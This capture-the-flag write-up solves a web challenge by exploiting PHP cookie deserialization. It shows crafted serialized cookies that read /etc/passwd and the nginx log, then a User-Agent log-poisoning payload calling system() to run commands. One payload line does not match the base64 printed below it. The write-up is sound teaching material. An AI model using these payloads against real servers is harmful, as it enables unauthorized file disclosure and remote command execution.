

# Toxic

## Abstract
*Category* : **web challenge**<br/>
*Challenge name* : **Toxic**<br/>
*Host* : `138.68.156.57:32327`<br/>
*Description* : Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸<br/>
*Status* : **SOLVED**<br/>

## Walktrough
Once I have started the instance and downloaded the attached files,
first thing that I noticed was this *index.php* file inside the *challenge* folder

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```
Something that catches the eye is the `PHPSESSID` cookie which, based upon the php code, is base64 encoded.  

Reaching the challenge web page we can read this cookie value with our browser dev tools,<br/>
The value of 'PHPSESSID' cookie is `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9`.<br/><br/>
Next obvious thing is to decode this value to see if we get something valuable:
```console
echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d          ─╯
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```  
This, paired with the aforementioned `php` code suggest that the system make use of the cookie to create the page model  
based upon a file template, in this case `/www/index.html`.  
Just to test our theory, Let's try to modify the file path specified in the cookie and see if we can retrieve something that is on the machine: 
we will base64 encode this payload 
```console
O:9:"PageModel":1:{s:4:"file";s:22:"../../../../etc/passwd";}
```  
Now Let's try submit this cookie with burp suite:
<div style="width: 65%; height: 65%">

  
  
</div>  

As you can see from the previous screen, we are able to retrieve the contente of the `passwd` file...    
the problem is that we still have no clue on the flag's location.  
We know that the webserver is nginx though so we can leverage the nginx log to see if we can find something useful.  
The new payload is 
```console
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64                                                                                                                                       ─╯
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQo=
```  
Then again we submit the request via burpsuite and we note that the User-Agent header  
is being logged, we can leverage this by changing its value to a malicious PHP payload and send it to the server  
for this scope we will use the php `system()` function that enable us to execute os-level command on the server:   
```php
<?php system('ls /'); ?>
```  
The new request will then be:  
```console
GET / HTTP/1.1
Host: 138.68.156.57:32327
User-Agent: <?php system('ls /');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```  
This will return a list of directories and imediatly we note that there is a `flag_Sz1aU` dir:  
```console
dev
entrypoint.sh
etc
flag_Sz1aU
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```  

Let's modify our payload again to get the content of that dir:  
```console
echo 'O:9:"PageModel":1:{s:4:"file";s:16:"cat /flag_Sz1aU";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfU3oxYVUiO30K
```  
Let's submit this via burp and here it is, we can see our flag is returned by the server!  
<div style="width: 65%; height: 65%">

  

</div> 


